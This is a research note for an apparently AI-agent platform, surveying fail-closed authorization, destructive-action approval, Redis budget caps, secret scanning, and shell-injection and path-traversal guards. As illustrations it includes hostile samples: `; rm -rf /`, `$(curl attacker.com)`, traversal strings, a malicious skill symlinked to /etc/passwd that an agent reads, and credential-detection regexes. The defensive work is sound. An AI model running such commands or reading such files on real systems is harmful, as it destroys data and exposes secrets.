


# Security & Budget Enforcement Patterns — External Research

**Phase/Step**: P4-002 (Tool Authorization), P4-003 (Destructive Approval), P4-004 (Budget Limits)  
**Date**: 2026-06-05  
**Author**: Guinevere — Librarian  
**Status**: Complete

---

## Table of Contents

1. [Fail-Closed Tool Authorization](#1-fail-closed-tool-authorization)
2. [Destructive Action Approval via Webhook](#2-destructive-action-approval-via-webhook)
3. [Redis Lua Atomic Budget Caps](#3-redis-lua-atomic-budget-caps)
4. [Secret Scanning in Tool Arguments](#4-secret-scanning-in-tool-arguments)
5. [Shell Injection Guards](#5-shell-injection-guards)
6. [Path Traversal Guards](#6-path-traversal-guards)
7. [Cross-Cutting Recommendations for Guinevere](#7-cross-cutting-recommendations-for-guinevere)

---

## 1. Fail-Closed Tool Authorization

### 1.1 Core Principle

The OWASP Authorization Cheat Sheet and every production-grade authorization system agrees on one axiom: **deny by default, never allow by assumption**.

> "Even when no access control rules are explicitly matched, the application cannot remain neutral… an application should be configured to deny access by default."  
> — [OWASP Authorization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)

### 1.2 Decision Semantics (Tri-State)

Production systems use three explicit states, not a binary allow/deny:

| State | Meaning | Action |
|-------|---------|--------|
| `allow` / `PERMIT` | Explicit policy grants access | Execute |
| `deny` / `DENY` | Policy explicitly blocks | Block, log reason |
| `indeterminate` / `SILENCE` | No policy matched or error | **Block** (fail-closed) |

- **AWS Cedar Policy**: "default-deny — Authorization queries will result in a `Deny` unless an explicit permit policy evaluates to `true`. An error in a policy results in that policy being ignored." ([source](https://docs.cedarpolicy.com/other/security.html))
- **Keycloak Authorization Services**: "Requests are denied by default even when there is no policy associated with a given resource." ([source](https://www.keycloak.org/docs/23.0.7/authorization_services/index.html))
- **TrigGuard**: "When evidence or policy outcome is ambiguous, the safe default is to withhold execution, not to proceed." ([source](https://www.trigguardai.com/fail-closed-ai-systems))

### 1.3 Enforcement Patterns

**Pattern A — Middleware PEP (Policy Enforcement Point):**
```
Request → AuthN → AuthZ PEP → [ALLOW] → Tool Exec → Audit
                              → [DENY] → Deny Response
                              → [INDETERMINATE] → Deny Response + Alert
```

**Pattern B — Decision Gate / PreToolUse Hook:**
The [decision-gate](https://github.com/DaRealYungBidness/decision-gate) MCP enforces a strict pipeline:
1. Trust lane minimum
2. Anchor validation
3. Signature verification
4. Comparator evaluation (tri-state)

If any stage produces `unknown`, the gate holds. Configuration exposes `default = "deny"` for unconfigured paths.

**Pattern C — Deterministic Evaluation:**
The [TrigGuard approach](https://www.trigguardai.com/blog/fail-closed-execution-layer-for-ai) requires three properties:
1. Explicit permit required for execution
2. Unknown state defaults to no execution
3. Outcomes are evidence-bearing and reviewable (signed receipts)

### 1.4 Failure Mode Handling

| Failure Mode | Fail-Open (Dangerous) | Fail-Closed (Correct) |
|-------------|----------------------|----------------------|
| Auth service timeout | "log and continue" | Queue/deny with timeout error |
| Policy retrieval failure | Async check after dispatch | Withhold execution |
| Partial connectivity | Permit under uncertainty | Block until evaluation completes |
| Retry storms | Accept duplicates | Idempotency key + permit check |

> "If your current automation stack still executes on timeout or policy uncertainty, you are effectively fail-open."  
> — [TrigGuard](https://www.trigguardai.com/blog/fail-closed-execution-layer-for-ai)

### 1.5 Pitfalls to Avoid

- **Pitfall: "log and continue" on auth service failure** — This turns every outage into a potential authorization bypass.
- **Pitfall: Optional permit checks inside application code** — If the check is optional, it will be skipped under load.
- **Pitfall: Exception paths that bypass authorization** — Never add "urgent" bypass routes; they become the primary vector.
- **Pitfall: Silent fail-open through monitoring** — "Monitoring warns, governance decides, fail-closed prevents." Dashboards don't block.

### 1.6 Guinevere Recommendations

- [ ] Implement tri-state `PERMIT` / `DENY` / `SILENCE` decision model, not boolean.
- [ ] Treat `SILENCE` (no matching policy or error) as `DENY` — never as `ALLOW`.
- [ ] Wire authorization before every execution surface, not as an optional middleware.
- [ ] On timeout or connection error to auth layer: **deny** execution, not allow.
- [ ] Log every decision with the decision state; emit audit events for `DENY` and `SILENCE`.

---

## 2. Destructive Action Approval via Webhook

### 2.1 Production-Grade Approval Flow (ContextOS Model)

The [ContextOS approval gate pattern](https://contextosai.com/blog/approval-gates-in-code) defines a typed contract between three actors:

```
Agent Proposal → Evidence Snapshot (frozen) → Human Signature → Gateway Redemption → Execution
```

**Key types:**

```typescript
// Agent proposes a destructive action
type ProposedDestructiveCall = {
  proposal_id: string
  args: Record<string, unknown>
  evidence_refs: string[]          // What evidence this depends on
  approval_mode: "destructive"
  proposed_by: string
  proposed_at: string
}

// System builds an approval request with frozen evidence
type ApprovalRequest = {
  request_id: string
  evidence_snapshot_hash: string   // sha256 over canonical evidence
  expires_at: string               // Hard cutoff (typically 15 min)
  reviewer_recommendations: Array<{...}>
}

// Human signs the frozen state
type ApprovalSignature = {
  evidence_snapshot_hash: string   // MUST match request hash
  decision: "approve" | "deny"
  signature: string                // ed25519 over request hash
}

// Gateway checks at redemption time
type RedemptionResult =
  | { ok: true }
  | { ok: false; kind: "denied" | "expired" | "evidence_drift"
               | "signature_invalid" | "not_authorized" }
```

### 2.2 The Four-Check Redemption Gate

From the [ContextOS reference implementation](https://contextosai.com/blog/approval-gates-in-code#the-redemption-gate):

| # | Check | Failure | Why |
|---|-------|---------|-----|
| 1 | Decision check | `denied` | Human explicitly rejected |
| 2 | Window check | `expired` | Time-bounded approvals (default 15 min) |
| 3 | Signature check | `signature_invalid` | Cryptographic integrity |
| 4 | **Evidence drift** | `evidence_drift` | **Critical**: re-freezes evidence at redemption and compares hash |

The evidence drift check is the most important: the gateway re-freezes evidence at redemption time and compares. If the order shipped between sign and redeem, or the customer cancelled, the hash changes → `evidence_drift` → refuse.

### 2.3 Webhook Approval Patterns

Multiple production systems implement the webhook pattern:

**Promptise Foundry** ([docs](https://docs.promptise.com/core/approval/)):
- POST approval request as JSON to webhook URL
- Poll `{url}/{request_id}` for decision
- HMAC-signed requests with configurable secret
- `on_timeout: "deny"` — timeout always denies by default
- `max_pending: 10` — auto-deny when too many pending
- `max_retries_after_deny: 3` — permanent denial after repeated tries

**Microsoft Agent Governance Toolkit** ([docs](https://microsoft.github.io/agent-governance-toolkit/tutorials/38-approval-workflows/)):
- `require_approval` policy action pauses agent execution
- Webhook receives POST with `type`, `rule_name`, `action`, `approvers`
- Must respond with `approved: bool, approver, reason`
- Timeout auto-denies (default 5 min)

**Connic Approvals** ([docs](https://connic.co/blog/agent-approvals-human-in-the-loop)):
- YAML config: which tools, timeout, on_rejection behavior
- Webhook notification to Slack/Teams/PagerDuty
- Conditional approvals based on parameters: `param.amount > 100`
- Fail-safe: "If a condition cannot be evaluated, approval is required"

### 2.4 Timeout-Hardened Denial Chain

```python
# From mcp-extras/approval-proxy (https://github.com/vaddisrinivas/mcp-extras)
engine = ChainedEngine([
    ElicitationEngine(timeout=30, fallthrough_on_timeout=True),
    WebhookEngine(url="https://approval-service.example.com/elicit", timeout=120),
])

# If ALL engines return None → default = deny (fail-closed)
# ChainedEngine.default = False on timeout
```

### 2.5 Pitfalls to Avoid

- **Pitfall: No evidence snapshot** — "I approved this last week, why is it running now?" Always freeze the evidence context at proposal time and verify at redemption.
- **Pitfall: Infinite timeout** — Every approval must have a hard upper bound (Connic max 24h, ContextOS typical 15 min). After timeout, **deny** not allow.
- **Pitfall: Duplicate approval races** — First final decision wins; later decisions are ignored. Atomic update: `UPDATE approvals SET status = ? WHERE status = 'PENDING'`.
- **Pitfall: Approval fatigue in "all tools" mode** — Users rubber-stamp. Use `destructive` mode and `allow_patterns` to reduce noise. Only gate what matters.
- **Pitfall: Modifiable arguments after review** — If reviewer approves `amount=100` but the tool receives `amount=100000`, the approval is worthless. Either freeze args or re-verify at execution.

### 2.6 Guinevere Recommendations

- [ ] Implement the 4-check redemption gate: deny → window → signature → evidence drift.
- [ ] Default timeout: 300s (5 min) for destructive actions, deny on timeout.
- [ ] Freeze evidence snapshot at proposal; re-compute hash at execution and reject on drift.
- [ ] Use typed deny reasons (fixed enum), not free-text — lets downstream automation react.
- [ ] Implement `max_pending` (limit concurrent pending approvals) and `max_retries_after_deny` (permanent denial after N tries).
- [ ] Webhook approval with HMAC signing + polling; fail-closed on connection error.

---

## 3. Redis Lua Atomic Budget Caps

### 3.1 The Atomicity Requirement

Race conditions in budget deduction are the most common failure in distributed systems. The fix is universal: **push the check-and-deduct logic into a Lua script executed atomically on the Redis server.**

> "Lua scripts execute atomically on a single Redis node, preventing race conditions between check and decrement."  
> — [OneUptime Cost-Based Rate Limiting](https://oneuptime.com/blog/post/2026-03-31-redis-cost-based-rate-limiting/view)

### 3.2 Production Lua Scripts

**Pattern A — Cost-Based Budget Check (variable cost per action):**

```lua
-- cost_rate_limit.lua (source: OneUptime)
local key = KEYS[1]
local cost = tonumber(ARGV[1])
local limit = tonumber(ARGV[2])
local window = tonumber(ARGV[3])

local current = redis.call("GET", key)

if current == false then
  -- First request in this window
  redis.call("SET", key, limit - cost, "EX", window)
  return limit - cost
end

current = tonumber(current)

if current < cost then
  return -1  -- Insufficient budget
end

return redis.call("DECRBY", key, cost)
```

**Pattern B — Token Bucket (smooth refill over time):**

```lua
-- From official Redis docs (https://redis.io/docs/latest/develop/use-cases/rate-limiter/nodejs/)
local key = KEYS[1]
local capacity = tonumber(ARGV[1])
local refill_rate = tonumber(ARGV[2])
local refill_interval = tonumber(ARGV[3])
local now = tonumber(ARGV[4])

local bucket = redis.call('HMGET', key, 'tokens', 'last_refill')
local tokens = tonumber(bucket[1])
local last_refill = tonumber(bucket[2])

if tokens == nil then
    tokens = capacity
    last_refill = now
end

local time_passed = now - last_refill
local refills = math.floor(time_passed / refill_interval)

if refills > 0 then
    tokens = math.min(capacity, tokens + (refills * refill_rate))
    last_refill = last_refill + (refills * refill_interval)
end

local allowed = 0
if tokens >= 1 then
    tokens = tokens - 1
    allowed = 1
end

redis.call('HMSET', key, 'tokens', tokens, 'last_refill', last_refill)
return {allowed, tokens}
```

**Pattern C — Campaign Budget Check (Spent vs. Budget, Hash-based):**

```lua
-- budget_check.lua (source: OneUptime Campaign Budget Tracker)
local key = KEYS[1]
local cost = tonumber(ARGV[1])
local budget = tonumber(redis.call('HGET', key, 'daily_budget'))
local spent = tonumber(redis.call('HGET', key, 'spent_today'))

if spent + cost > budget then
    return 0  -- over budget
end

redis.call('HINCRBYFLOAT', key, 'spent_today', cost)
return 1  -- approved
```

### 3.3 EVALSHA Caching Pattern

```
1. Load script via SCRIPT LOAD → get SHA1 hash
2. Call EVALSHA <sha1> instead of EVAL
3. On NOSCRIPT error: reload script, retry
4. Max retry guard to prevent infinite loop
```

Reference: [marcos-astudillo/redis-rate-limiter](https://github.com/marcos-astudillo/redis-rate-limiter)

### 3.4 Fail-Closed for Redis Unavailability

The [redis-rate-limiter project](https://github.com/marcos-astudillo/redis-rate-limiter) exposes a config parameter:

```
RATE_LIMIT_FAIL_POLICY = "open"   # allow on Redis failure (fail-open)
                       = "closed" # deny on Redis failure (fail-closed)
```

**Recommendation**: Always use `"closed"` for budget enforcement. If Redis is down, no tokens are deducted — this is the safe default for a money/budget system.

### 3.5 Performance Optimizations

| Optimization | Effect | Source |
|-------------|--------|--------|
| EXPIRE only on new keys | 99.99% reduction in EXPIRE calls | [sanchit-g/distributed-rate-limiter](https://github.com/sanchit-g/distributed-rate-limiter) |
| Local in-memory cache | Skip Redis for keys clearly under limit (500ms TTL) | [marcos-astudillo/redis-rate-limiter](https://github.com/marcos-astudillo/redis-rate-limiter) |
| Token bucket (O(1) state) | 2 numbers per key vs sliding window O(N) | [aluiziolira/rate-limit-patterns](https://github.com/aluiziolira/rate-limit-patterns) |
| Clock skew prevention | Use Redis TIME, not client clock | [sanchit-g/distributed-rate-limiter](https://github.com/sanchit-g/distributed-rate-limiter) |

### 3.6 Pitfalls to Avoid

- **Pitfall: INCR + EXPIRE in separate calls** — Race condition between increment and TTL set. Both must be in the same Lua script.
- **Pitfall: Client-side timestamp** — Clock skew across instances corrupts refill calculations. Always use `redis.call('TIME')`.
- **Pitfall: No key expiry** — Abandoned keys leak memory. Always set EXPIRE in the script.
- **Pitfall: Fail-open on Redis failure** — "Allow on error" means budgets are meaningless when Redis goes down.

### 3.7 Guinevere Recommendations

- [ ] Use Pattern C (campaign budget via HASH) for per-user/agent token budgets stored on DB5 (Redis 6380).
- [ ] Always wrap check + deduct in a single Lua script — never do client-side read-then-write.
- [ ] Use `EVALSHA` with NOSCRIPT fallback for performance.
- [ ] Set `RATE_LIMIT_FAIL_POLICY = "closed"` — deny on Redis failure.
- [ ] Set TTL proportional to budget window (e.g., 2x window) on every key.
- [ ] Use Redis `TIME` command, not client timestamps, for clock-skew-free refill.
- [ ] Keep Lua scripts in version control as `.lua` files and load at startup.

---

## 4. Secret Scanning in Tool Arguments

### 4.1 Runtime Secret Detection Patterns

The industry has converged on regex + entropy scanning at the tool-call boundary.

**Production tools:**

| Tool | Mechanism | Latency | Patterns |
|------|-----------|---------|----------|
| [TruffleHog](https://github.com/trufflesecurity/trufflehog) | Regex + active verification | Medium | 700+ detectors |
| [SecretScan](https://github.com/Manavarya09/secretscan) | PostToolUse hook + entropy | <10ms | 47 patterns |
| [armorer-guard](https://pypi.org/project/armorer-guard/) | Pre-tool-call scan + redaction | Rust-core fast | Credential + semantic lanes |
| [hardstop](https://www.npmjs.com/package/hardstop) | Pre-execution + 428 patterns | Fast | File read + bash args |
| [secscan](https://github.com/voidd0/secscan) | Pre-commit / pre-push | <2s / 1M LOC | Curated high-precision |
| [barbican](https://github.com/jdidion/barbican) | PreToolUse + wrapper binaries | Near-zero (Rust) | Bash compositions + secrets |
| [bareguard](https://github.com/hamr0/bareguard) | PEP pipeline + redaction | ~30-180 LOC each | Env-var + cred patterns |

### 4.2 Where to Scan

The three interception points for secret detection in an agent system:

```
Tool Arguments (pre-execution)  →  Tool Output (post-execution)  →  Audit Log
        |                                |                              |
   [armorer-guard]                 [SecretScan]                  [bareguard]
   Block before exec               Redact before LLM             Redact before write
```

**Pre-execution (critical for destructive tools):**
- Scan `tool_input` for API keys, tokens, private keys, JWTs, connection strings
- Block execution if secrets detected in arguments
- From [armorer-guard docs](https://pypi.org/project/armorer-guard/): "Put Armorer Guard at the boundary where untrusted text becomes agent context or where model output becomes action."

**Post-execution (prevent context window leakage):**
- Scan tool output before it reaches the LLM context
- Redact detected secrets with placeholder fingerprints
- Store originals in local SQLite for recovery
- From [SecretScan](https://github.com/Manavarya09/secretscan): "Claude sees `[REDACTED:anthropic_api_key:bbfc6912]` — not `sk-ant-api03-...`"

### 4.3 Production Pattern: Layered Detection

The [armorer-guard](https://pypi.org/project/armorer-guard/) architecture shows the best layering:



**Recommended enforcement:**
- **redact** credentials before logging or forwarding
- **block** `semantic:prompt_injection` in untrusted content
- **block** `policy:dangerous_tool_call` before execution
- **escalate** `policy:credential_disclosure` on outbound messages

### 4.4 Key Patterns to Detect

| Category | Example Pattern | Severity |
|----------|----------------|----------|
| AWS Access Key | `AKIA[0-9A-Z]{16}` | Critical |
| GitHub PAT | `ghp_[0-9a-zA-Z]{36}` | Critical |
| OpenAI API Key | `sk-[a-zA-Z0-9]{20,}` | Critical |
| Anthropic API Key | `sk-ant-[a-zA-Z0-9]{40,}` | Critical |
| PEM Private Key | `-----BEGIN (RSA|OPENSSH|EC) PRIVATE KEY-----` | Critical |
| JWT Token | `eyJ[a-zA-Z0-9_-]+\.eyJ[a-zA-Z0-9_-]+\.[a-zA-Z0-9_-]+` | High |
| Generic Secret | Shannon entropy > 4.5 | Warning |

### 4.5 Pitfalls to Avoid

- **Pitfall: Only regex, no entropy** — Custom-format secrets bypass fixed patterns. Add entropy analysis for unknown secrets.
- **Pitfall: No allowlist** — False positives require a `secretscan allow <fingerprint> --reason "test key"` mechanism.
- **Pitfall: Logging secrets in audit trail** — If secrets reach your audit log, the audit log is now a secrets dump. Redact before writing.
- **Pitfall: Scanning only git, not runtime** — Commit-time scanning misses secrets generated or used at runtime. Must scan tool arguments too.
- **Pitfall: "Show full secret in error message"** — Always redact by default. Expose `--no-redact` only for explicit debugging.

### 4.6 Guinevere Recommendations

- [ ] Implement pre-execution secret scanning on all tool `args` before dispatch.
- [ ] Implement post-execution redaction on tool `output` before passing to LLM.
- [ ] Use regex patterns for known providers + Shannon entropy for unknowns.
- [ ] Redact by default in logs and audit trails; store fingerprinted hashes only.
- [ ] Provide allowlist mechanism for false positives.
- [ ] Block execution if Critical-severity secret found in tool arguments (fail-closed).

---

## 5. Shell Injection Guards

### 5.1 The Exec-Form vs. Shell-Form Divide

The single most impactful shell injection prevention pattern is the **exec-form** pattern — passing arguments as an array rather than concatenating into a shell string.

From [AgentPatterns.ai](https://agentpatterns.ai/tool-engineering/hook-exec-form-vs-shell/):

| Form | Invocation | Shell Parsing | Safe with Untrusted Input |
|------|-----------|---------------|--------------------------|
| Shell form | `sh -c "command $args"` | Yes — tokenizes, expands, pipes | No |
| Exec form | `execve(command, [arg1, arg2])` | No — kernel passes argv verbatim | Yes |

> "Exec form (`args: string[]`) spawns the command with `execve`; the kernel does not parse shell syntax, so substituted hook input cannot inject commands."

### 5.2 Production Patterns

**Pattern — `subprocess` with argument arrays (Python):**
```python
# BAD: shell injection possible
subprocess.run(f"convert {user_filename} -resize 800x output.jpg", shell=True)

# GOOD: arguments as list, no shell
subprocess.run(["convert", user_filename, "-resize", "800x", "output.jpg"])
```

**Pattern — `spawn` with argument arrays (Node.js):**
```javascript
// BAD
exec(`convert ${userFilename} -resize 800x output.jpg`, callback)

// GOOD
const proc = spawn('convert', [userFilename, '-resize', '800x', 'output.jpg'])
```

**Pattern — Hook exec form (Claude Code):**
```json
{
  "type": "command",
  "command": "npx",
  "args": ["prettier", "--write", "${tool_input.file_path}"]
}
```

> Reference: [Claude Code v2.1.139 hook exec form](https://agentpatterns.ai/tool-engineering/hook-exec-form-vs-shell/)

### 5.3 The Double-Dash Defensive Pattern

```bash
# From vcp CLI security standard (https://github.com/Z-M-Huang/vcp/issues/45)
curl -- $url   # Everything after -- is an operand, not a flag
```

Prevents argument injection (CWE-88): an attacker cannot inject `--output /etc/passwd` because `--` stops flag parsing.

### 5.4 Wrapper Binaries for Interpreter Invocations

The [barbican](https://github.com/jdidion/barbican) project ships classifier-gated wrapper binaries that intercept inline code execution:

| Wrapper | Intercepts | What it does |
|---------|-----------|-------------|
| `barbican-shell` | `bash -c BODY` | Static classifier on body, reject dangerous shellouts |
| `barbican-python` | `python3 -c BODY` | Same classifier, plus credential redaction in output |
| `barbican-node` | `node -e BODY` | Same, with `--` inserted between body and extra args |
| `barbican-ruby` | `ruby -e BODY` | Same pattern |
| `barbican-perl` | `perl -e BODY` | Same pattern |

Key design: "Args before the inline flag are **rejected** — the classifier can't reason about pre-BODY interpreter flags, so the wrapper refuses the invocation."

### 5.5 The CVE-2026-29783 Lesson

The [shell tool vulnerability in GitHub Copilot CLI](https://avd.aquasec.com/nvd/2026/cve-2026-29783/) (patched in 0.0.423) demonstrates the risk:

> "Bash parameter expansion features can embed executable code within arguments to otherwise read-only commands, causing them to appear safe while actually performing arbitrary operations."

**Mitigation**: Do not rely on LLM-based safety assessment of shell commands. Use deterministic pattern matching on the pre-interpolation command string.

### 5.6 Pitfalls to Avoid

- **Pitfall: LLM-generated shell commands trusted without validation** — The model can be prompted to produce `; rm -rf /` or `$(curl attacker.com)`. Never trust model-generated shell.
- **Pitfall: Only blocking known bad patterns** — Blocklists miss obfuscation. Use exec-form to structurally prevent injection at the syntax level.
- **Pitfall: `shell=True` as default** — Every subprocess call should default to `shell=False`. Only use `shell=True` when pipes/redirects are explicitly needed and input is trusted.
- **Pitfall: No timeout on shell commands** — A malicious command can hang forever. Always set a timeout on shell execution.
- **Pitfall: Windows `.cmd`/`.bat` shims** — These require shell. Workaround: invoke the underlying script with `node` in exec form instead of falling back to shell form.

### 5.7 Guinevere Recommendations

- [ ] All tool-executed shell commands use argument arrays (exec form), never string concatenation.
- [ ] For commands requiring shell features (pipes, redirects): wrap in a script under `scripts/`, call the script in exec form with arguments as positional params.
- [ ] Always use `--` delimiter between command and user-supplied arguments.
- [ ] Set hard timeout on all shell execution (30s default for non-destructive, shorter for destructive).
- [ ] Never allow LLM-generated bash scripts to execute without passing through a deterministic classifier.
- [ ] Log executed commands (with args redacted for secrets) for audit.

---

## 6. Path Traversal Guards

### 6.1 The Canonicalization Principle

The core insight from every path security library: **resolve symlinks and canonicalize before checking the prefix — never check the raw string.**

From [AuditBuffet Pattern Catalog (CWE-22)](https://auditbuffet.com/patterns/ab-001849):

> "Resolve symlinks with `fs.realpathSync()` before validating the path prefix. Never check the raw user-supplied string."

```javascript
// PRODUCTION PATTERN — Symlink-safe path validation
const ALLOWED_DIR = path.resolve('/workspace')

function safePath(input: string): string {
  const resolved = path.resolve(ALLOWED_DIR, input)
  // Resolve symlinks before checking prefix
  const real = fs.realpathSync(resolved)
  if (!real.startsWith(ALLOWED_DIR + path.sep) && real !== ALLOWED_DIR) {
    throw new Error(`Access denied: path outside allowed directory`)
  }
  return real
}
```

### 6.2 Production Libraries

| Library | Approach | TOCTOU Safe? | Dependencies |
|---------|----------|-------------|-------------|
| [strict-path-rs](https://github.com/dk26/strict-path-rs) | Type-safe path boundary with compile-time markers | No (design tradeoff) | ~2 crates |
| [path_jail](https://github.com/tenuo-ai/path_jail) | Path canonicalization + `secure-open` feature | Yes (with `guard` feature on Linux 5.6+) | 0 deps |
| [mcp-guard](https://github.com/jakeb-5/mcp-guard) | Wraps MCP handlers; blocks `../`, null bytes, encoded variants | No (validation only) | zod only |
| [bareguard](https://github.com/hamr0/bareguard) | Segment-boundary matched paths, normalized | No | proper-lockfile |

### 6.3 The Symlink Escape Problem

From [BSWEN — Security Boundaries for AI Agent Skills](https://docs.bswen.com/blog/2026-03-25-ai-agent-skill-security-path-containment/):

```
Attacker creates: skills/evil-skill/README.md
README.md is a symlink to: /etc/passwd

Without containment check:
  - Skill registered with path to /etc/passwd
  - Model reads skill, gets /etc/passwd contents

With containment check:
  - realpath resolves to /etc/passwd
  - /etc/passwd does not start with /workspace/root
  - Skill rejected at discovery time
```

**Rule**: "File system security problems should fail at discovery, not runtime."

### 6.4 The strict-path CWE Coverage

From [strict-path-rs](https://github.com/dk26/strict-path-rs) (19+ real-world CVEs covered):

| Attack | Blocked |
|--------|---------|
| `../../etc/passwd` | Yes |
| Symlink escape (`link -> /etc`) | Yes |
| Symlink chains (`a -> b -> /etc`) | Yes |
| Broken symlinks (`link -> /nonexistent`) | Yes |
| URL-encoded `%2e%2e` | Yes (OS resolves as literal dirname) |
| Overlong UTF-8 `%c0%ae` | Yes (OS doesn't decode) |
| Null byte injection (`file\x00.txt`) | Yes |
| Absolute injection (`/etc/passwd`) | Yes |

The key design insight: **canonicalization beats blocklists.** "If the canonicalized result either falls inside the boundary or it doesn't."

### 6.5 TOCTOU-Safe File Operations

The [path_jail](https://github.com/tenuo-ai/path_jail) library offers two levels:

**Level 1 — `secure-open` (all Unix):** Uses `O_NOFOLLOW` to protect against symlink swap attacks on the final path component. Zero additional dependencies.

**Level 2 — `guard` feature (Linux 5.6+):** Uses `openat2(RESOLVE_BENEATH | RESOLVE_NO_MAGICLINKS)` for kernel-enforced TOCTOU safety. The validate-and-open is atomic at the kernel level.

### 6.6 Pitfalls to Avoid

- **Pitfall: String prefix check without symlink resolution** — A symlink inside the allowed directory can point to `/etc/shadow`.
- **Pitfall: Only blocking `..`** — URL-encoded, Unicode, and overlong UTF-8 variants bypass string blocklists. Only canonicalization stops them all.
- **Pitfall: TOCTOU between validation and open** — A symlink can be swapped between the `realpath` call and the `open` call. Use `O_NOFOLLOW` or `openat2(RESOLVE_BENEATH)`.
- **Pitfall: Accepting absolute paths from untrusted input** — Always join against a known base directory, never use the input as-is.
- **Pitfall: Forgetting new files don't exist yet** — `canonicalize()` fails on non-existent paths. path_jail handles this by validating path segments incrementally.

### 6.7 Guinevere Recommendations

- [ ] All file-read and file-write tool arguments must pass through path canonicalization with symlink resolution.
- [ ] Define strict allowed roots (whitelist of base directories per tool).
- [ ] Use `O_NOFOLLOW` for all file opens (TOCTOU protection).
- [ ] Cache canonicalized allowed roots at startup, not on every call.
- [ ] Block null bytes, encoded path separators, and absolute paths at the argument validation layer.
- [ ] Log path traversal attempts as security events with tool name, attempted path, and resolved path.

---

## 7. Cross-Cutting Recommendations for Guinevere

### 7.1 Priority Mapping to P4-002, P4-003, P4-004

| Task | Focus | Primary Sections | Implementation Priority |
|------|-------|-----------------|------------------------|
| **P4-002** (Tool Authorization) | Fail-closed auth, deny-by-default, tri-state decisions | §1 | HIGH |
| **P4-003** (Destructive Approval) | Webhook approval, evidence drift detection, timeout deny | §2 | HIGH |
| **P4-004** (Budget Limits) | Redis Lua atomic budget, cost-based deduction, EVALSHA | §3 | HIGH |
| — | Shell injection prevention | §5 | HIGH (cross-cutting) |
| — | Path traversal prevention | §6 | HIGH (cross-cutting) |
| — | Secret scanning in tool args | §4 | MEDIUM (can phase) |

### 7.2 Hard Constraints from Requirements

| Constraint | How |
|-----------|-----|
| No `Any` | Fail-closed auth uses typed enums (`PERMIT | DENY | SILENCE`), not any |
| No type ignores | All auth paths return typed results; no fallback to untyped |
| No empty except | Every Redis error path is explicit (NOSCRIPT, connection error, timeout) |
| Redis 6380/DB5 | All budget keys use DB5, port 6380 |
| Destructive approval before execution | 4-check redemption gate runs before tool dispatch |
| No fail-open fallback | Timeout → deny, Redis unavailable → deny, evidence drift → deny |

### 7.3 Architecture Integration Points



### 7.4 Key Source Links

| Pattern | Primary Source |
|---------|---------------|
| Fail-closed auth | [OWASP Authorization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html) |
| Cedar tri-state | [Cedar Policy Security](https://docs.cedarpolicy.com/other/security.html) |
| Decision gate MCP | [DaRealYungBidness/decision-gate](https://github.com/DaRealYungBidness/decision-gate) |
| Webhook approval gate | [ContextOS approval-gates-in-code](https://contextosai.com/blog/approval-gates-in-code) |
| Webhook handler pattern | [Promptise Foundry Approval](https://docs.promptise.com/core/approval/) |
| Microsoft approval workflows | [Agent Governance Toolkit](https://microsoft.github.io/agent-governance-toolkit/tutorials/38-approval-workflows/) |
| Redis Lua token bucket | [Redis.io rate-limiter/nodejs](https://redis.io/docs/latest/develop/use-cases/rate-limiter/nodejs/) |
| Cost-based rate limiting | [OneUptime Redis cost-based](https://oneuptime.com/blog/post/2026-03-31-redis-cost-based-rate-limiting/view) |
| Campaign budget tracker | [OneUptime Redis campaign budget](https://oneuptime.com/blog/post/2026-03-31-redis-campaign-budget-tracker/view) |
| Exec form vs shell form | [AgentPatterns.ai hook-exec-form](https://agentpatterns.ai/tool-engineering/hook-exec-form-vs-shell/) |
| Shell injection CVE-2026-29783 | [Aqua CVE-2026-29783](https://avd.aquasec.com/nvd/2026/cve-2026-29783/) |
